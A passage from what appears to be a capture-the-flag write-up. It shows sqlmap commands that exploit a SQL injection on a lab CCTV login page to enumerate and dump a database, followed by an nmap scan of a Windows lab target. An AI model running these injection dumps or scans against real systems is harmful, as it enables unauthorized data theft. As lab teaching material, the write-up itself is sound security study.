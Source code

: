 ![Web 8080 Login Sqli](web_8080_login_sqli.webp){: width="1000" height="500" }

But after bypassing the login and even logging in as the other users we discovered in the logs, we don't find the keycard. However, we can try using `sqlmap` to dump the database with this `SQL Injection` as follows:

```console
$ sqlmap -u 'http://10.10.143.134:8080/login.php' --method POST --data 'username=byte&password=&ok=Submit' --level 5 --risk 3 --threads 10 -p username --batch --dbs
...
available databases [2]:
[*] cctv_db
[*] information_schema
...
```
{: .wrap }

We can see the database for the web application as `cctv_db` and continue with dumping it.

```console
$ sqlmap -u 'http://10.10.143.134:8080/login.php' --method POST --data 'username=byte&password=&ok=Submit' --level 5 --risk 3 --threads 10 -p username --batch -D cctv_db --dump
...
Database: cctv_db
Table: recordings
[53 entries]
+----+--------+---------------------+---------+---------------------+
| id | cam_id | path                | minutes | date_recording      |
+----+--------+---------------------+---------+---------------------+
| 1  | 11     | /re[REDACTED]ed.mp4 | 5       | 2024-12-10 11:27:28 |
| 9  | 5      | /re[REDACTED]ed.mp4 | 10      | 2024-12-05 22:38:35 |
...
```
{: .wrap }

From the output of the `recordings` table, we can see the path for the deleted recordings is set as `/re[REDACTED]ed.mp4`. Visiting this video on the CCTV web server, a couple of seconds in, we can find the keycard with the password on it being `on[REDACTED]er`.

![Web 8080 Keycard](web_8080_keycard.webp){: width="1200" height="600" }

## Side Quest

Since we have the password on the keycard, we can move on to the side quest. As usual, we start by going to port `21337` on the target to disable the firewall.

![Web 21337 Index](web_21337_index.webp){: width="1200" height="600" }

### Initial Enumeration

Now that the firewall is disabled, we can start with an `nmap` scan.

```console
$ nmap -T4 -n -sC -sV -Pn -p- 10.10.39.152
Nmap scan report for 10.10.39.152
Host is up (0.098s latency).
Not shown: 65514 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Krampus Festival Login
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
```